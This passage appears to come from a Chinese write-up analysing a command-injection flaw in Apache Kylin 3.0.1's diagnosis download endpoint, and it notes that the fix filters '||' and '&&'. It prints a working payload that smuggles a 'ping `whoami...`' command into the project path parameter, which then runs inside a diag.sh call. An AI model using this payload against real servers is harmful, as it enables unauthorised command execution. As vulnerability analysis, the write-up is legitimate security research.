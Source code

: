 ```java {29-31}
            Thread.currentThread().interrupt();
            throw new IOException(e);
        }
    }

}
```

这样我们就可以通过控制` {project}` 请求就可以造成命令注入

```sh
/kylin/api/diag/project/{project}/download
/kylin/api/diag/project/||ping `whoami.111.111.111`||/download
```

拼接后则出现

```sh
/home/admin/apache-kylin-3.0.1-bin-hbase1x/bin/diag.sh {project} {diagDir}
```

这里通过报错语句可以回显命令验证漏洞存在

```java
throw new InternalErrorException("Failed to dump project diagnosis info. " + e.getMessage(), e);
```

![img](../../../.vuepress/public/img/kylin-21.png)

在修复中，过滤了`||`,`&&`等符号，造成无法命令注入
